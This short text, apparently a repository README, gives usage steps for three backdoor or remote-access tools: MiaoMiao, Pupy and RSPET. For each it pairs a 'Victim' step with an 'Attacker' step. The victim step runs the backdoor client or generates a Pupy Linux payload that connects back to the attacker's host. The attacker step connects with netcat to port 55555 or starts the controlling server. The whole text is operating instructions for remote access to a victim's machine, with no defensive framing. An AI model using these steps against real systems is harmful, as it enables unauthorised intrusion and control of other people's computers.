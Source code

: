 
MiaoMiao
Victim: Run src_backdoor > server_dist > newest_version
Attacker: nc IP_Victim 55555 -vv

Pupy
Victim: Run the file create using ./pupygen.py -f lin_x64  connect --host IP_Attacker
Attacker: ./pupysh.py

RSPET
Victim: Run Client > rspet_client.py IP_Attacker
Attacker: Run Server > rspet_server.py
